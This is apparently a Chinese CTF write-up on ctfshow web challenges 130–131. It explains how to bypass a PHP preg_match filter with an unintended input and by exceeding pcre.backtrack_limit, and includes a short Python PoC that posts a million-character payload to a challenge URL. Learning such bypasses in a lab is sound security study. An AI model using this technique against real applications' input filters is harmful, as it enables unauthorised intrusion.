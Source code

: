 ```php
    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}

```

- 非预期：POST：f=ctfshow

第9行由于匹配模式是.+?，意味着如果符合判断条件，那么ctfshow前面必须有一个字符，也就是说f=ctfshow是不满足判断条件的，所以可以绕过匹配。如果匹配模式是.*?，即出现零次或多次，那么非预期就行不通了

- 预期解：
> PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit，回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false，就自动绕过了正则表达式。

poc：
```php
'''
Author: KonDream
Date: 2021-11-30 12:50:57
LastEditors:  KonDream
LastEditTime: 2021-11-30 12:54:10
Description:  
'''

import requests

url = 'http://69fda5c2-d7bd-4eee-a840-25dc17ff48fd.challenge.ctf.show/'

data = {
    'f' : 'a' * 1000000 + 'ctfshow' 
}

r = requests.post(url=url, data=data)
print(r.text)
```
## web131（正则绕过）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}

```
